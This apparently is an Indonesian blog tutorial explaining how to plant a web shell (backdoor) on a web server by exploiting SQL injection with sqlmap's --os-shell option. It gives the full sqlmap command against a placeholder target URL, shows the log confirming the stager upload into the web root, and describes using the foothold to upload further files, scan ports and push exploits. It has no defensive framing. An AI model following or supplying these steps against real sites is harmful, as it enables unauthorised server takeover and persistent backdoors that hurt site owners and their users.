



**Upload Shell Menggunakan SQLMap** - SQLMap adalah adalah tools opensource yang mendeteksi dan melakukan exploit pada bug SQL injection secara otomatis. Dengan melakukan serangan SQL injection, seorang attacker dapat mengambil alih serta memanipulasi sebuah database di dalam sebuah server.

Sangat sering kita menggunakan sqlmap untuk melakukan injeksi sql untuk mendapatkan database server web. Command yang akan kita gunakan adalah `--os-shell`,  disini [SQLMap](http://sqlmap.org/) akan meningkatkan privileges dan akan memberi kita shell interaktif.

Baca juga: [Cara Membuat List Password Menggunakan CUPP](https://akbar.kustirama.id/membuat-list-password-menggunakan-cupp/).

Di artikel kali ini saya akan menunjukkan cara mengupload backdoor melalui SQLMAP. Caranya cukup mudah karena dengan menggunakan SQLMAP, kita hanya perlu menuliskan command yang kita inginkan.

**Tambahkan `--os-shell` pada akhir command SQLMap.**

 

Sebelumnya saya sudah mendapatkan nama database web tersebut.

```
sqlmap -u http://urltarget.com/file.php?id=21 -D namadatabase --os-shell
```

**SQLMap akan memberi kita pilihan, bahasa apa yang disupport oleh web server tersebut. Kalian pilih nomor 4 (PHP) atau cukup tekan ENTER.**



```
[INFO] the file stager has been successfully uploaded on 'C:/xampp/htdocs/' - http://urltarget.id:80/tmpujmew.php
```

Di sini, sqlmap akan meningkatkan privileges dan akan memberi kita shell interaktif tetapi dalam skenario ini kita akan mengunggah backdoor (Shell) secara selektif untuk eksploitasi lebih lanjut.

**SQLMap sukses mengupload backdoor. Sekarang kita buka file yang telah diupload.**

 
Perhatikan bagian bawah.

**Sampai sini kita tinggal upload file yang kita inginkan.**

Kita dapat melakukan berbagai operasi dengan mudah seperti memasang remote system file, scanning port, meng-upload eksploit ke server, dll.
